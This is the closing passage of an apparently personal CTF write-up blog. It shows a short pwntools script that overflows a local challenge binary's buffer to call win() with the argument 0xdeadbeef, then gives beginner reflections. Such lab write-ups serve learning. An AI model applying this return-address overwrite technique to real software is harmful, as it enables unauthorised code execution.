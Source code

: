 The exploit this time is the same as before, we just need to ensure the parameter that is passed to `win()` is `0xdeadbeef`. Since we are writing to `local_24`, we simply write `0x24` bytes of junk, and then the address to `win()`, and then to pass an argument, we write 1 byte of junk and then the value we want the argument to take. Putting that all together, we get:
```
from pwn import *

binary = context.binary = ELF('./pwnme')

p = process(binary.path)
payload = b''
payload += 0x24 * b'A'
payload += p32(binary.sym.win)
payload += p32(0)
payload += p32(0xdeadbeef)

p.sendlineafter("Level 3: Args too?\n", payload)
p.interactive()
```
Woo! We did it! At this point, I don't fully know how to do the rest of the challenges, so this is where I tap out. Thanks for reading along!

# Conclusions/Reflections

I really liked that these first few challenges were so beginner-friendly given that this was my first exposure to a CTF. I feel like I have a basic understanding of how to use PWN, though there is certainly a lot more for me to learn. Thanks for following along and I hope this post was at least a bit insightful to anyone reading!